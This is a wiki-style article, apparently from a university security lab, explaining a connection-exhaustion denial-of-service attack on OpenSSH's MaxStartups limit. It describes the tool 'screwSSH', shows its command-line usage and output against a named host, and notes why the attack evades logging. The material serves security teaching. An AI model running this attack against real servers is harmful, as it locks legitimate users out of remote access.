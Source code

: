 # screwSSH

## The Problem
Processes and threads, even when idle, use memory and incur scheduling overhead. While the advent of fast computers with lots of memory and [http://en.wikipedia.org/wiki/Copy-on-write copy-on-write virtual-memory subsystems] have helped the problem, it is still possible to cause a system to become unresponsive using some variant of a [http://en.wikipedia.org/wiki/Fork_bomb fork bomb].

## Relevance to SSH Servers
The rest of the article will reference [http://www.openssh.com/ OpenSSH] specifically, as it is very popular and is open-source.

OpenSSH, like a lot of TCP-enabled server software, spawns a new process using the [http://en.wikipedia.org/wiki/Fork_%28operating_system%29 fork()] system call every time a client connects to it. It is important to note that this expenditure of resources occurs when a client merely ''connects'', and has not yet even authenticated. This allows one or more clients to make a bunch of TCP connections to a network-accessible SSH server's TCP port and exhaust the hardware resources of the computer it is running on, or--if the computer has sufficient memory and CPU time to handle it--all of its available TCP sockets.

## The Solution
To prevent the above attack, OpenSSH has a ''MaxStartups'' configuration option, which places an upper bound on how many unauthenticated clients may be connected at once. Unfortunately, its default value is quite conservative: 10. 

## Attacking the Solution
The above solution opens the SSH server to another attack that simply involves exhausting the number of TCP connections unauthenticated clients may use up. The [http://isis.poly.edu/~bk/screwSSH.tbz screwSSH] program is an implementation of this attack in C and C++ that is known to compile on BSD and GNU/Linux. It spawns one thread per TCP connection. TCP connections that are disconnected are immediately reconnected. Its usage is as follows:

<pre>
# ./screwSSH howtohack.poly.edu 22 10
[2011-01-25 13:41:09] Socket 1 connected.
[2011-01-25 13:41:09] Socket 2 connected.
[2011-01-25 13:41:09] Socket 3 connected.
[2011-01-25 13:41:09] Socket 4 connected.
[2011-01-25 13:41:09] Socket 5 connected.
[2011-01-25 13:41:09] Socket 6 connected.
[2011-01-25 13:41:09] Socket 7 connected.
[2011-01-25 13:41:09] Socket 8 connected.
[2011-01-25 13:41:09] Socket 9 connected.
[2011-01-25 13:41:09] Socket 10 connected.
</pre>

At this point, the remote OpenSSH server, in a default configuration, has reached its limit for unauthenticated clients, and will not accept any new ones:

<pre>
# ssh -v howtohack.poly.edu
OpenSSH_5.6p1 FreeBSD-20101111, OpenSSL 0.9.8q 2 Dec 2010
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Connecting to howtohack.poly.edu [128.238.66.101] port 22.
debug1: Connection established.
debug1: permanently_set_uid: 0/0
debug1: identity file /root/.ssh/id_rsa type -1
debug1: identity file /root/.ssh/id_rsa-cert type -1
debug1: identity file /root/.ssh/id_dsa type -1
debug1: identity file /root/.ssh/id_dsa-cert type -1
ssh_exchange_identification: Connection closed by remote host
</pre>

In addition to the difficult nature of denial-of-service attacks in general, this one is particularly difficult to deal with for the following reasons:

* By default, OpenSSH does not write a log entry when the ''MaxStartups'' limit has been reached.
* Restarting the SSH server has no effect, as disconnected TCP connections are immediately reconnected.
* It results in just four packets--SYN, SYN/ACK, ACK, and RST (when it is disconnected)--being generated per connection per the configured ''LoginGraceTime'' interval--which defaults to 120 seconds--and is therefore not casually observable on the wire for a small number of connections like 10.
